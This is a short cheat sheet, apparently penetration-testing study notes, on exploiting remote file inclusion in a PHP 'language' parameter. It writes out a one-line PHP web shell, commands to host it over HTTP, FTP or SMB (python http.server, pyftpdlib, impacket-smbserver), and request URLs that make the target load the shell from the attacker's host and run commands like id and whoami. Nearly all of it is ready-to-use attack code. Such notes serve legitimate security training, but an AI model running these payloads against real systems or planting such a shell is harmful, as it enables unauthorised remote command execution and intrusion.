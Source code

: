 

Create php page
```shell-session
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```


### HTTP method
Start call back server
```shell-session
sudo python3 -m http.server <LISTENING_PORT>
```

Execution payload
```http
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```


### FTP method
Start ftp server
```shell-session
sudo python -m pyftpdlib -p 21
```

Execution payload
```http
http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id
```



### SMB Method

Start SMB server
```shell-session
impacket-smbserver -smb2support share $(pwd)
```

Execution payload
```http
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```